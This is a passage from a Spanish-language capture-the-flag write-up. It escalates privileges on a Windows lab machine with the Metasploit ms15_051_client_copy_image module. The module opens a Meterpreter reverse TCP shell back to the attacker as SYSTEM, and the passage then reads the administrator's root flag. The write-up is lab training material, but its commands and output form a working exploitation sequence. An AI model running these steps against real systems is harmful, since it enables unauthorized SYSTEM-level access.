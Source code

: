 ```bash
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
...
...
...
```
Tenemos varias opciones, pero el que sirve para escalar privilegios es el módulo `exploit/windows/local/ms15_051_client_copy_image`.

Vamos a configurarlo:
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_image
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
SESSION => 1
```

Y lo ejecutamos:
```bash
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 1460 launched.
[*] Reflectively injecting the DLL into 1460...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.80
[*] Meterpreter session 2 opened (Tu_IP:4444 -> 192.168.1.80:49188) at 2025-02-03 21:34:00 -0600
.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
De esta forma, volvimos a escalar privilegios.

Ya solo obtenemos la flag del administrador:
```batch
C:\Windows\System32>cd C:\Users\Administrador\Desktop
cd C:\Users\Administrador\Desktop
.
C:\Users\Administrador\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 1CEF-5C5A
.
 Directorio de C:\Users\Administrador\Desktop
.
14/06/2024  17:17    <DIR>          .
14/06/2024  17:17    <DIR>          ..
14/06/2024  17:16                29 root.txt
               1 archivos             29 bytes
               2 dirs  12.669.628.416 bytes libres
.
C:\Users\Administrador\Desktop>type root.txt
type root.txt
```
Y con esto, completamos la máquina.
